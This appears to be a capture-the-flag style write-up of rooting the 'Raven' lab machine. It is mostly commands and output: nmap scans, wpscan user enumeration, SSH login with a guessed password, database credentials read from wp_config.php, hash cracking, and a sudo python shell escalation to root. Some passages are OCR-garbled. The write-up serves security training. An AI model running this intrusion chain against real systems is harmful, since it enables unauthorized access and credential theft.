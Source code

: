 # Red Team: Summary of Operations

### Exposed Services and Exploitation

Nmap scan results for each machine reveal the below services and OS details:

First I performed a port scan using `nmap` to enumerate the entire network:

> nmap -Pn 192.168.1.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-28 15:15 PST
Nmap scan report for 192.168.1.1
Host is up (0.00056s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2179/tcp open  vmrdp
3389/tcp open  ms-wbt-server
MAC Address: 00:15:5D:00:04:0D (Microsoft)

> Nmap scan report for 192.168.1.100
Host is up (0.00085s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
9200/tcp open  wap-wsp
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)

> Nmap scan report for 192.168.1.105
Host is up (0.00089s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:15:5D:00:04:0F (Microsoft)

> Nmap scan report for 192.168.1.110
Host is up (0.0011s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:10 (Microsoft)

> Nmap scan report for 192.168.1.115
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:11 (Microsoft)

> Nmap scan report for 192.168.1.90
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

> Nmap done: 256 IP addresses (6 hosts up) scanned in 6.74 seconds

Then I delved more fully into two machines in particular to gather exposed services:

> nmap -sV 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00053s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

> nmap -sV 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.00057s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

The following vulnerabilities were identified on each target:
* Target 1
  - User enumeration

    The team was able to use a Wordpress scan to enumerate the users using the command:

    `wpscan --url http://192.168.1.110 --enumerate u`

    Results of the scan identified two users:

    >3 4m[i][0m User(s) Identified:

    > [32m[+][0m steven
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

    > [32m[+][0m michael
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

  - Weak password

    Attackers were then easily able to `ssh` into the target by guessing the weak password of user `michael`, which was "michael".

    > ssh michael@192.168.1.110    
    > michael@192.168.1.110's password:

    > michael@target1:~$ ls

    Attackers were then able to use `grep` to find "flag1" inside of /var/www/html/service.html:

    > cat /var/www/html/service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    Found flag2 the same way.  Traversed the file system and found inside the /var/www directory.

    > michael@target1:~$ cat /var/www/flag2.txt
    > flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

  - Insecure password

    As the attackers were further searching the system, found credentials for the Wordpress database inside of /var/www/html/wp_config.php:

    > /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');

    > /** MySQL database username */
    define('DB_USER', 'root');

    > /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity');

    Used those credentials to get into the Wordpress database and find flag3:

    > ichael@target1:~$ mysql -u root -p wordpress
      Enter password:
      Reading table information for completion of table and column names
      You can turn off this feature to get a quicker startup with -A

    >  Welcome to the MySQL monitor.  Commands end with ; or \g.
      Your MySQL connection id is 42
      Server version: 5.5.60-0+deb8u1 (Debian)

      Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.



> mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

select * from wp_posts;

| 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2}

And was able to find additional users hashes in wp_users.

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+

  - Privilege escalation

Was able to use 'john' to crack the password for Steven (pink84), and then use that to escalate privileges and fine flag4:

> michael@target1:~$ su - steven
> Password:
> $ sudo python -c 'import pty;pty.spawn("/bin/bash")'        
> root@target1:/home/steven# cd /root
> root@target1:~# ls
> flag4.txt
> root@target1:~# cat flag4.txt
> ______                      


> ag4{715dea6c055b9fe3337544932f2941ce}

> NGRATULATIONS on successfully rooting Raven!
